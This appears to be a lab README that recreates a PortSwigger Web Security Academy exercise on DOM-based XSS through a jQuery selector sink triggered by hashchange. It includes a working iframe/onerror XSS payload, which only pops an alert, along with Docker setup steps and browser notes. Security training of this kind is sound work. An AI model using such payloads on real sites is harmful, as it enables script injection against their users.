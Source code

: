 # DOM XSS in jQuery selector sink using a hashchange event

## SYNOPSIS
-  Site has 9 li elements 
-  You can jump to different li elements by adding an anchor link at the end of the url ```htttp://localhost:8085/#list1```
-   The jquery selector will wait for a hashchange event to occur which enables the jump to the corresponding list

## PAYLOAD
- ```<iframe src="https://ac731fc31e7e5a3fc02905c6001900c5.web-security-academy.net#" onload="this.src+='<img src=1 onerror=alert(1)>'">``` via server
- I STILL NEED SOME CLARIFICATION ON HOW THIS WORKS

## How to:
- chmod 700 ```build_docker```
- Run build_docker
- Use the payload above
- You should see an alert window

### NOTE
- Tested on both Safari and Chrome
- Only works on CHROME

#### Reference
DOM XSS in jQuery selector sink using a hashchange event \
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event
